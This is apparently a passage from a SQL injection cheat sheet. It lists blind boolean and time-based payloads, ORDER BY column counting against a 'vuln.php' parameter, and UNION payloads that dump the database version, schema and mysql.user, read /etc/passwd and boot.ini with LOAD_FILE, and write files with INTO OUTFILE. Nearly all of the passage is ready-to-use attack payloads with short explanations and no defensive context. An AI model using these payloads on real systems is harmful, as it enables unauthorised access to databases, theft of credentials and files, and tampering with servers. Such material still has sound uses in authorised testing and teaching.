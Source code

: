    ```
    AND ISNULL(ASCII(SUBSTRING(CAST((SELECT LOWER(db_name(0)))AS varchar(8000)),1,1)),0)=109
    ```
* if it is true, we know the db\_name starts with 109(m).
*   Ask if the first character of the user is 'a':

    ```
    and if(substring (user(),1,1)=’a’,SLEEP(5),1)--”
    ```
*   Check if the admin table exists:

    ```
    and IF(SUBSTRING ((select 1 from admin limit 0,1),1,1)=1,SLEEP(5),1)
    ```

Finding number of columns using ORDER BY

*   We can use order by to sort the result by a given column number, if the column does not exist, we will get an error:

    ```
    vuln.php?id=1 order by 9 # This throws no error
    vuln.php?id=1 order by 10 # This throws error
    ```

MySql UNION code execution

* Joins the result of two queries
  * Two queries should return the same # of columns.
  * Data-types in columns of the select must be of the same orcompatible type.
*   Once you have the right number of columns (i.e. 3) you can find the mysql version:

    ```
    UNION SELECT @@version,NULL, NULL#'
    ```
*   mysql users:

    ```
    UNION SELECT table_schema,NULL,NULL FROM information_schema.columns#'
    ```
* if the result displays garbage from the first query, you can add a false condition to only show the union result **AND 1=0 UNION...**
*   Read files

    ```
    AND 1=0 UNION SELECT LOAD_FILE('C:\\boot.ini'),NULL,NULL #'
    ```
*   Write files

    ```
    AND 1=0 UNION SELECT 'bad content',NULL,NULL INTO OUTFILE 'C:\\random_file.txt' #'
    ```
*   Other payloads:

    ```
    -1 union all select @@version --
    1 union SELECT user FROM mysql.user
    1 union select 'foo' into outfile '/tmp/foo'
    1 union select load_file('/etc/passwd')
    ```

